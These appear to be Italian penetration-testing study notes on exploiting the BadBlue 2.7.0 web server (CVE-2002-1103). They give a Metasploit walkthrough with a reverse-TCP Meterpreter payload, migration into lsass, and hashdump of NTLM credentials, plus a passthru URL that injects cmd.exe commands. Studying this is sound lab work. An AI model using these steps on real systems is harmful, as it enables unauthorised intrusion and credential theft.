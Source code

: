 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# CVE-2002-1103 BadBlue

**BadBlue** è un server web per Windows originariamente sviluppato per la condivisione di file su piccola scala. È stato distribuito come freeware nei primi anni 2000 ed è noto per la sua interfaccia semplice e la leggerezza.

Tuttavia, versioni obsolete di BadBlue – in particolare la **versione 2.7.0** – sono affette da una **vulnerabilità critica** che permette l'esecuzione remota di codice (**RCE**) sfruttando una cattiva gestione delle richieste HTTP e delle variabili CGI. Questo lo rende un target interessante nei contesti di penetration testing su macchine legacy o ambienti lab.

---

## Introduzione alla vulnerabilità

Il software BadBlue include un interprete integrato per script **.ext**, che possono eseguire comandi sul sistema. Tuttavia, non esiste un controllo adeguato su ciò che può essere eseguito tramite input remoto.

La vulnerabilità sfrutta il fatto che una richiesta GET/POST opportunamente formattata può iniettare comandi direttamente nel sistema operativo ospitante, ottenendo **completa esecuzione di codice arbitrario** con i privilegi dell’utente che esegue il processo.

La vulnerabilità è stata storicamente catalogata come **CVE-2002-1103**, anche se exploit più moderni si riferiscono spesso a **BadBlue passthru.exe RCE**.

---

## Exploiting con Metasploit

Metasploit offre un modulo dedicato all’exploit RCE di BadBlue:

`use exploit/windows/http/badblue_passthru` ⟶ modulo exploit per il servizio CGI di BadBlue. <br>
`set RHOST <IP>` ⟶ indirizzo della macchina target. <br>
`set RPORT 80` ⟶ porta del server BadBlue. <br>
`set PAYLOAD windows/meterpreter/reverse_tcp` ⟶ payload per ottenere shell. <br>
`set LHOST <KaliIP>` ⟶ IP locale della macchina di attacco. <br>
`set LPORT <Port>` ⟶ porta in ascolto. <br>
`run` ⟶ avvia l’exploit e tenta di ottenere la reverse shell. <br>

Se l’attacco va a buon fine, si riceverà una sessione Meterpreter con i privilegi del processo BadBlue (spesso SYSTEM).

Dopo l’esecuzione e l’apertura di una sessione Meterpreter, si cerca il processo `lsass.exe` (Local Security Authority Subsystem Service), responsabile della gestione delle autenticazioni sul sistema. È proprio all'interno della memoria di questo processo che vengono archiviati gli hash NTLM e le credenziali in chiaro.

`ps | grep lsass` ⟶ Puoi identificare il PID di LSAS 

Una volta ottenuto il PID, si migra il payload di Meterpreter dentro LSASS

`migrate <PID>` ⟶ il PID dev'essere quello di lsass

Verifica che l’utente corrente abbia privilegi SYSTEM

`getuid`

Il risultato atteso dovrebbe essere simile a:
```
Server username: NT AUTHORITY\SYSTEM
```

Il modulo sfrutta il file **passthru.ext**, usato da BadBlue per interpretare e inoltrare richieste.  
Un esempio di URL vulnerabile potrebbe essere:

`http://<IP>/ext.dll?m=passthru&b=cmd.exe+/c+dir`

Con questa richiesta, viene eseguito `cmd.exe /c dir`, mostrando la lista dei file nella directory di lavoro.

---

## Verifica e post-exploitation

Una volta ottenuta la shell:

`getuid` ⟶ verifica l’utente attuale (es. `NT AUTHORITY\\SYSTEM`). <br>
`getprivs` ⟶ elenca i privilegi ottenuti. <br>
`hashdump` ⟶ se possibile, estrae gli hash utente da SAM. <br>
`migrate <PID>` ⟶ consente di migrare ad un processo più stabile. <br>

---
